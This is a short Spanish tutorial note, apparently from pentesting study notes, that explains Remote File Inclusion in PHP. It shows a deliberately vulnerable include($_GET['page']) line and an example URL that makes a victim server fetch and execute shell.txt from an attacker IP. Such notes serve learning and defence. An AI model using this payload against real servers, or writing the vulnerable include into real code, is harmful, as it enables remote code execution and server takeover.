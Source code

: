 Es muy parecido al [[LFI(Local File Inclusion)]] nada mas que envés de listar archivos a nivel local, vamos a descargar y ejecutar archivos ubicados en servidores remotos, que tengan un contenido malisioso

------
### 📍 ¿Dónde suele encontrarse?

Principalmente en aplicaciones escritas en **PHP**, aunque puede aparecer en otros entornos mal configurados.

Un código vulnerable en PHP sería:
```
<?php include($_GET['page']); ?>
```

*Dato importante:*
El servidor tiene que tener `allow_url_include = On` (una opción insegura en PHP), va a ejecutar el contenido de ese archivo como si fuera parte del código del sitio.

-----
### Pero nosotros lo vamos a identificar cuando tiene por ejemplo el parametro page= para redireccionar

```
http://victima.com/index.php?page=home.php
```

------
## 🧪 Ejemplo práctico

```
http://victima.com/index.php?page=http://10.10.14.6/shell.txt
```
Se descarga y se ejecuta en este caso el archivo shell.txt